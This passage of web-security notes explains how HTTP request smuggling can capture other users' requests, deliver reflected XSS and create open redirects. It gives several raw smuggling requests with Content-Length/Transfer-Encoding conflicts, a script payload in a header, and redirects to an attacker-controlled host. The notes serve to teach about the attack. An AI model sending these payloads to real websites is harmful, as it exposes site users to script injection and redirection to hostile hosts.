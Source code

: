 One limitation with this technique is that it will generally only capture data up until the parameter delimiter that is applicable for the smuggled request. For URL-encoded form submissions, this will be the & character, meaning that the content that is stored from the victim user's request will end at the first &, which might even appear in the query string  

## Using HTTP request smuggling to exploit reflected XSS
If an application is vulnerable to HTTP request smuggling and also contains reflected XSS, you can use a request smuggling attack to hit other users of the application.
```
POST / HTTP/1.1
Host: vulnerable-website.com
Content-Length: 63
Transfer-Encoding: chunked

0

GET / HTTP/1.1
User-Agent: <script>alert(1)</script>
Foo: X
```

## Using HTTP request smuggling to turn an on-site redirect into an open redirect
Many applications perform on-site redirects from one URL to another and place the hostname from the request's Host header into the redirect URL. An example of this is the default behavior of Apache and IIS web servers, where a request for a folder without a trailing slash receives a redirect to the same folder including the trailing slash: 
```
GET /home HTTP/1.1
Host: normal-website.com

HTTP/1.1 301 Moved Permanently
Location: https://normal-website.com/home/
```
exploitation:
```
POST / HTTP/1.1
Host: vulnerable-website.com
Content-Length: 54
Transfer-Encoding: chunked

0

GET /home HTTP/1.1
Host: attacker-website.com
Foo: X
```
### Turning root-relative redirects into open redirects
In some cases, you may encounter server-level redirects that use the path to construct a root-relative URL for the Location header, for example: 
```
GET /example HTTP/1.1
Host: normal-website.com

HTTP/1.1 301 Moved Permanently
Location: /example/
```
This can potentially still be used for an open redirect if the server lets you use a protocol-relative URL in the path: 
```
GET //attacker-website.com/example HTTP/1.1
Host: vulnerable-website.com

```